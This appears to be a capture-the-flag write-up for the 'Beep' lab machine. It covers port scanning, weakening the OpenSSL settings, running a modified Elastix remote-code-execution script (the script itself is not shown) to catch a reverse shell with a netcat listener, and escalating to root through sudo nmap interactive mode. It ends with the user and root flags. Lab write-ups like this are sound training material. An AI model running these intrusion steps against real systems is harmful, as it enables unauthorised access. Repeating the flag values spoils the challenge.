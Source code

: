 # Beep - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.7

nmap --script vuln 10.10.10.7

sudo vim /etc/ssl/openssl.cnf
#at end of config file
#edit MinProtocol = None and CipherString = None

vim elastix-rce.py
#modify exploit

python elastix-rce.py

nc -nvlp 4444
#setup listener for reverse shell from running exploit
#we get reverse shell

whoami
#asterisk

sudo -l
#we have multiple services that can be run as root without password

sudo /usr/bin/nmap --interactive

#in nmap prompt
!sh
#we have root shell
```

* Open ports & services:

  * 22 - ssh - OpenSSH 4.3 (protocol 2.0)
  * 25 - smtp - Postfix smtpd
  * 80 - http - Apache httpd 2.2.3
  * 110 - pop3 - Cyrus pop3d
  * 111 - rpcbind
  * 143 - imap - Cyrus imapd
  * 443 - ssl/http - Apache httpd 2.2.3
  * 993 - ssl/imap - Cyrus imapd
  * 995 - pop3 - Cyrus pop3d
  * 3306 - mysql - mysql
  * 4190 - sieve - Cyrus timsieved
  * 4559 - HylaFAX 4.3.10
  * 5038 - asterisk - Asterisk Call Manager 1.1
  * 10000 - http - Miniserv 1.570 (Webmin httpd)

* We can begin enumerating the services one-by-one.

* We are unable to access the webpages using SSL due to an unsupported version error - this can be resolved by modifying the browser settings to accept older SSL cert versions.

* Now, accessing <https://10.10.10.7>, we encounter a login page for ```Elastix```.

* The same webpage is hosted on port 443 as well; we can enumerate other ports with similar services.

* Checking <https://10.10.10.7:10000>, we have a Webmin login page.

* Now, we are unable to fuzz these webpages, so we will have to lower our SSL security level by modifying configuration as well.

* In the openssl config file, we have to edit both MinProtocol and CipherString values to None.

* Now, Googling for exploits related to Elastix gives us a Python script.

* Modifying & running this script allows us to get a reverse shell at out listener; we get shell as 'asterisk'.

* Now, using ```sudo -l```, we can see that there are multiple paths to become root - we can choose any service from the list and run as root.

* Getting the exploit from GTFObins for 'nmap' in this instance, we can run the commands and get root shell.

```markdown
1. User flag - a075b54365b5e47329554cc18878f1d4

2. Root flag - 08afd44761440352b3db6f139c318dba
```
